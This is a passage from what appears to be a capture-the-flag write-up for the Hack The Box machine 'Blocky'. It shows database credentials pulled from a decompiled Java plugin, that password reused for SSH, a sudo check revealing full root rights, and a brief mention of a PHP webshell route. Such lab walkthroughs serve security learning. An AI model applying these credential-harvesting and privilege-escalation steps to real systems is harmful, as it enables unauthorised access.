 ```console

    public String sqlHost;
    public String sqlUser;
    public String sqlPass;
}
``` 
> *jad* produces a file called **BlockyCore.jad** which I just printed out using *cat*

My assumptions were correct and we successfully extracted some database credentials. 
```console
sqlHost = "localhost";
sqlUser = "root";
sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
```
There are two main ways one can go from here on - change the wordpress password of **notch** via */phpmyadmin/* and upload a php webshell OR simply use the gained credentials to SSH into the box. To my knowledge only the second options works because php web shell won't allow you to escalate privileges (correct me if I'm wrong though)! 

```console
root@EdgeOfNight:~# ssh notch@10.10.10.37

notch@10.10.10.37's password: 8YsqfCTnvxAUeduzjNSXe22
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Dec  8 10:39:57 2017 from 10.10.14.217
notch@Blocky:~$
```

Now go and get that user flag!

***

# Privilege escalation
Simply do `sudo -l` which reveals that our user can run any command with sudo privileges:
```console
notch@Blocky:~$ sudo -l
[sudo] password for notch: 8YsqfCTnvxAUeduzjNSXe22
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```
